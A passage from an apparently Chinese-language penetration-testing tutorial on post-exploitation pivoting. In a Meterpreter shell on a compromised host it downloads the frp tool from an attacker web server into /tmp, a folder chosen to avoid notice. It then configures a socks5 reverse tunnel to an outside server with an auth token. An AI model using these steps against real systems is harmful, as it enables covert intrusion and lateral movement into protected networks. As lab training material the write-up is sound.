 ## 6.2 在 DMZ 配置 Frp

开启 Web 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start apache2.service
```

将 frp 拷贝到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cp frp_0.49.0_linux_amd64.tar.gz /var/www/html/
```

进入目标机 shell

```
meterpreter > shell
```

切换到  tmp 目录

```
meterpreter > cd /tmp
```

> 防删除目录，避免被发现

下载 frp 客户端

```
wget http://192.168.6.24/frp_0.49.0_linux_amd64.tar.gz
```

解压 frp 安装包

```
tar xf frp_0.49.0_linux_amd64.tar.gz
```

退出 shell

```
exit
```

进入 /tmp/frp_0.49.0_linux_amd64/

```
meterpreter > cd /tmp/frp_0.49.0_linux_amd64/
```

打开 frpc.ini

```
meterpreter > edit frpc.ini
```

配置 frpc.ini

```
[common]
server_addr = 123.56.167.168
server_port = 7000
token = tN[,n|:A4vVT:CexOk_6

[socks9999]
type = tcp
remote_port = 9999
plugin = socks5
use_encryption = true
use_compression = true
```
